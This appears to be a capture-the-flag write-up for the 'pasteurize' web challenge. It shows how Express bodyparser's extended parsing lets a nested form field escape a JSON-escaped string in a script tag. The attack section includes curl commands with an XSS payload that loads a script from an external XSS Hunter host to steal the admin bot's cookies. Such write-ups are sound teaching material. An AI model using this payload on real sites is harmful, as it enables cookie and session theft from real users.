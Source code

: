 # web/pasteurize

## info

> This doesn't look secure. I wouldn't put even the littlest secret in here.
> My source tells me that third parties might have implanted it with their little treats already. 
> Can you prove me right?
> 
> https://pasteurize.web.ctfcompetition.com/

## writeup

After submiting the form with a random value we inspect the source and see

```html
<!-- TODO: Fix b/1337 in /source that could lead to XSS -->
```

We have access to the source code of the app!  
Looks like a node app running an express server.  
After some digging some interesting parts fall into view:

1. The route to view a note uses a small function to escape our note content  
   
   ```javascript
   JSON.stringify(unsafe).slice(1, -1).replace(/</g, '\\x3C').replace(/>/g, '\\x3E')
   ```
   
   preventing us from inserting `<tags>` directly.

2. The escaped note gets passed to the view template and renders in a script tag on the site `const note = "asd";`.

If we find a way to "leave" the string and execute our own javascript we're in business!  
After reviewing the source and paying attention to the *developer comments*, one hits the eye:

```javascript
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
      extended: true
}));
```

If we investigate the express [bodyparser](http://expressjs.com/en/resources/middleware/body-parser.html#bodyparserurlencodedoptions) middleware we find:

> The “extended” syntax allows for **rich objects and arrays** to be encoded into  the URL-encoded format, allowing for a JSON-like experience with URL encoded. For more information, please [see the qs library](https://www.npmjs.com/package/qs?spm=a2c6h.14275010.0.0.5bd529bf7ywTul#readme).

Nice, that means we can pass more than a simple string.  
In the qs library we can read how to use it:

> qs allows you to create nested objects within your query strings, by surrounding the name of sub-keys with square brackets []. For example, the string `foo[bar]=baz` converts to:

```javascript
assert.deepEqual(qs.parse('foo[bar]=baz'), {
    foo: {
        bar: 'baz'
    }
});
```

### attack

If we start playing with a few payloads

```shell
curl -X POST https://pasteurize.web.ctfcompetition.com/ -d "content[foo]=bar"
```

and look at the results

```javascript
const note = ""foo":"bar"";
// Uncaught SyntaxError: unexpected token: identifier
```

we'll see that we found our **attack vector!**  
Now we craft our small exploit by creating and appending a script tag with our malicious code.

> I use [xsshunter.com](https://xsshunter.com) at this point

```shell
curl -X POST https://pasteurize.web.ctfcompetition.com/ -d "content[1]=;a=document.createElement('script');a.src='https://pwn.xss.ht';document.body.append(a);"
```

Make sure that *TJMike* downloads our xss payload by visting the *"share with TJMike"* link and after a short while we find the flag in his cookies: `CTF{Express_t0_Tr0ubl3s}`.
